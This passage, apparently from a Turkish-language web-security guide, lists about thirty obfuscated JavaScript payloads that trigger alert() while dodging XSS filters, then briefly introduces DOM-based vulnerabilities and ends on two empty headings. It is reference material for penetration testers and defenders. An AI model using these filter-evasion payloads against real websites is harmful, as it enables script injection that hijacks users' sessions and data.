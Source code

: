 ````javascript
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````
## **DOM zafiyetleri**

**JS kodu**, **bir saldırgan tarafından kontrol edilen güvensiz verileri** kullanıyor, örneğin `location.href`. Bir saldırgan, bunu kullanarak rastgele JS kodu çalıştırabilir.\
**Açıklamanın uzatılması nedeniyle** [**DOM zafiyetleri bu sayfaya taşındı**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

Orada **DOM zafiyetlerinin ne olduğu, nasıl tetiklendiği ve nasıl istismar edileceği hakkında detaylı bir açıklama** bulacaksınız.\
Ayrıca, **bahsedilen gönderinin sonunda** [**DOM Clobbering saldırıları hakkında**](dom-xss.md#dom-clobbering) bir açıklama bulmayı unutmayın.

### Self-XSS'i Yükseltme

### Cookie XSS
